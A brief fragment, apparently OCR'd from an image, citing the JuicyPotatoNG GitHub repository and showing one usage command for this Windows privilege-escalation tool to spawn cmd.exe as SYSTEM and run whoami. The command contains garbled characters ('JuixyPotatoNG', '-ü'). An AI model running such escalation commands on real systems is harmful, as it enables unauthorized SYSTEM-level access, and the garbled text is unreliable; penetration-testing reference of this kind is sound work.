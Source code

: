 ### Source
https://github.com/antonioCoco/JuicyPotatoNG

# Open System Shell - using LogonUser() API call and SSPI hook on AcceptSecurityContext() function
JuixyPotatoNG.exe -t * -ü "C:\Windows\System32\cmd.exe" -a "/c whoami > whoami.txt"

